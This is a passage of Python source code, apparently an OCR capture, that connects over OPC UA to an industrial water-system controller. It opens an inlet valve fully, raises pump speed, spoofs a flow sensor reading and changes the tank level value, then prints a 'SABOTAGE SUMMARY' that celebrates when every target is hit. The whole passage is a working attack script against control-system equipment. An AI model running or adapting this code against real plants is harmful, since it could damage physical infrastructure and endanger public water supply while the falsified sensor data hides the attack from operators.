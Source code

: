```python
                tank_node = comp
            elif name.Name == "Maintenance":
                maintenance_node = comp
        
        success_count = 0
        
        # 1. Set inlet valve to 100% open
        print("\n1. Setting inlet valve to 100% open...")
        if valve_node:
            valve_children = await valve_node.get_children()
            for child in valve_children:
                child_name = await child.read_browse_name()
                if child_name.Name == "PercentOpen":
                    await child.write_value(100.0)
                    current_value = await child.read_value()
                    print(f"✓ Valve set to {current_value}% open")
                    success_count += 1
                    break
        
        # 2. Increase pump speed to 1600 RPM
        print("\n2. Setting pump speed to 1600 RPM...")
        if pump_node:
            pump_children = await pump_node.get_children()
            for child in pump_children:
                child_name = await child.read_browse_name()
                if child_name.Name == "Speed":
                    await child.write_value(1600.0)
                    current_value = await child.read_value()
                    print(f"✓ Pump speed set to {current_value} RPM")
                    success_count += 1
                    break
        
        # 3. Spoof flow sensor to 4 L/s
        print("\n3. Setting flow sensor to 4 L/s...")
        if sensors_node:
            sensor_children = await sensors_node.get_children()
            for child in sensor_children:
                child_name = await child.read_browse_name()
                if child_name.Name == "FlowRate":
                    await child.write_value(4.0)
                    current_value = await child.read_value()
                    print(f"✓ Flow sensor set to {current_value} L/s")
                    success_count += 1
                    break
        
        # 4. Raise tank water level to 5m
        print("\n4. Setting tank water level to 5m...")
        if tank_node:
            tank_children = await tank_node.get_children()
            for child in tank_children:
                child_name = await child.read_browse_name()
                if child_name.Name == "WaterLevel":
                    await child.write_value(5.0)
                    current_value = await child.read_value()
                    print(f"✓ Tank water level set to {current_value}m")
                    success_count += 1
                    break
        
        print(f"\n=== SABOTAGE SUMMARY ===")
        print(f"Successfully modified {success_count}/4 parameters")
        
        if success_count == 4:
            print("🎯 ALL SABOTAGE TARGETS ACHIEVED!")
```